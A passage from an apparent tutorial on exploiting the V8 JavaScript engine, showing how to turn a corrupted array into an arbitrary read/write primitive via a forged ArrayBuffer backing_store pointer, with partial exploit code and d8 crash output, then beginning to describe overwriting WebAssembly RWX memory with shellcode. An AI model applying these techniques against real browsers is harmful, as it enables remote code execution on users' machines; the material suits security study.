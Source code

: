 Et voilà!

## Step 3 : Arbitrary read/write primitive

Going from step 2 to step 3 is fairly easy. We just need our `ArrayBuffer` to contain data that look like an actual object. More specifically, we would like to craft an `ArrayBuffer` with a controlled `backing_store` pointer. You can also directly corrupt the existing `ArrayBuffer` to make it point to arbitrary memory. Your call! 

Don't forget to choose a length that is big enough for the data you plan to write (most likely, your shellcode).

```javascript
let view = new BigUint64Array(evil_ab);
for (let i = 0; i < ARRAYBUFFER_SIZE / PTR_SIZE; ++i) {
  view[i] = f2i(arr2[ab_len_idx-3+i]);
  if (view[i] > 0x10000 && !(view[i] & 1n))
    view[i] = 0x42424242n; // backing_store
}
// [...]
arr2[magic_mark_idx+1] = tagFloat(fbackingstore_ptr); // object pointer
// [...]
let rw_view = new Uint32Array(packed_elements_array[1]);
rw_view[0] = 0x1337; // *0x42424242 = 0x1337
```

You should get a crash like this. 

```text
$ d8 rw.js 
[+] corrupted JSArray's length
[+] Found backingstore pointer : 0000555c593d9890
Received signal 11 SEGV_MAPERR 000042424242
==== C stack trace ===============================
 [0x555c577b81a4]
 [0x7ffa0331a390]
 [0x555c5711b4ae]
 [0x555c5728c967]
 [0x555c572dc50f]
 [0x555c572dbea5]
 [0x555c572dbc55]
 [0x555c57431254]
 [0x555c572102fc]
 [0x555c57215f66]
 [0x555c576fadeb]
[end of stack trace]
```

## Step 4 : Overwriting WASM RWX memory

Now that's we've got an arbitrary read/write primitive, we simply want to overwrite RWX memory, put a shellcode in it and call it. We'd rather not do any kind of `ROP` or `JIT code reuse`([0vercl0k](https://twitter.com/0vercl0k) [did this for SpiderMonkey](https://doar-e.github.io/blog/2018/11/19/introduction-to-spidermonkey-exploitation/#force-the-jit-of-an-arbitrary-native-payload-bring-your-own-payload)). 
